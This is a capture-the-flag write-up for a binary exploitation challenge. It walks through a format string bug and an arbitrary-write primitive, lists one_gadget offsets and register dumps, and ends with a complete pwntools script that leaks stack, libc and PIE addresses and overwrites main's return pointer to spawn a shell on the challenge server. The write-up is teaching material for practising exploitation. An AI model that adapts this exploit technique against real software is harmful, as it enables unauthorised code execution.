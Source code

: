 This was a really easy challenge in my opinion, and I first blooded it in the CTF :)

The logic is pretty simple

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 *circle; // [rsp+8h] [rbp-18h] BYREF
  __int64 hell_send; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Please, tell me your name: ");
  fgets(your_name, 12, stdin);
  your_name[strcspn(your_name, "\n")] = 0;
  printf("Hi, ");
  printf(your_name);
  puts(" give me a soul you want to send to hell: ");
  __isoc99_scanf("%lu", &hell_send);
  getchar();
  puts("and in which circle you want to put him/her: ");
  __isoc99_scanf("%lu", &circle);
  getchar();
  *circle = hell_send;
  puts("Done, bye!");
  return 0;
}
```

We can enter a name, which it will print to the user using printf, which is a Format String Bug.
then, we can basiclly write to any location we want.

The binary is compiled with FULL-RELRO, Stack Canary, PIE and NX.
if FULL-RELRO wasn't enable, I would've just leaked libc using the fsb and do a GOT overwrite to system.
now that it does enabled, we can just get a stack leak from the fsb, and write into main's return pointer, and thats what I did.
I also leaked libc address using the fsb, and leaked PIE (cause why not :))

The most easy win wouldv'e just to use a one_gadget. those are the available gadgets on the provided libc:
```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

We can see that the last 3 requries rbp-0x78 to be writable, but its not possible for us since we are overwriting the main's return pointer.
We'll try to use the first one. those are the registers when main's ret is triggered:
```
 RAX  0x0
 RBX  0x0
 RCX  0x7fc578914a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7fc578a1ba70 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x1
 R8   0xa
 R9   0x0
 R10  0x7fc5789beac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
 R11  0x246
 R12  0x7ffcba8415b8 —▸ 0x7ffcba8422a4 ◂— '/media/itay/Data/DanteCTF/pwn/sentence/bin'
 R13  0x55cce994e229 (main) ◂— endbr64 
 R14  0x55cce9950d88 —▸ 0x55cce994e1e0 ◂— endbr64 
 R15  0x7fc578bc4040 (_rtld_global) —▸ 0x7fc578bc52e0 —▸ 0x55cce994d000 ◂— 0x10102464c457f
*RBP  0x1
*RSP  0x7ffcba8414b8 —▸ 0x7fc578850a37 (do_system+327) ◂— xor edx, edx
 RIP  0x55cce994e3a9 (main+384) ◂— ret 
```
RCX == NULL, thats good , but rsp is not aligned correctly nor RBP == 1.
BUT, we can see that after the ret instruction [$rsp] == 0, and its 16 bit aligned:
```
pwndbg> x/1gx $rsp
0x7ffd9820ca90:	0x0000000000000000
```
which mean, that the next leave; ret instruction will satisfy the first one_gadget conditions!
so our approach will be to jump back to main, overwrite the return pointer again, to just our one_gadget.

exploit:

```py
from pwn import *
elf = ELF("./bin")
def exploit():
	p = remote('challs.dantectf.it', 31531)


    name = b"%p%13$p%3$p"

    p.recvuntil(b"name:")
    p.sendline(name)
    p.recvuntil(b"Hi, ")
    leak = p.recvline().split(b"0x")

    stack_leak = int(leak[1],16)
    base_leak = main_start = int(leak[2],16)
    libc_leak = int(leak[3].split()[0],16)
    ret_addr = stack_leak + 0x2148
    libc_base = libc_leak - 0x114a37
    #333
    one_gadget = libc_base + 0x50a37
    #333
    pie_base = base_leak - 0x1229
    print(hex(ret_addr),hex(libc_base),hex(pie_base))

    p.sendline(str(main_start+0x5)) 
    p.recvuntil(b"her:")
    p.sendline(str(ret_addr))


    p.recvuntil(b"name:")
    p.sendline(name)

    #jump to one_gadget
    p.recvuntil(b"hell:")
    p.sendline(str(one_gadget))
    p.recvuntil(b"her:")
    p.sendline(str(ret_addr+0x10))

    p.interactive()

if __name__ == '__main__':
    exploit()

```
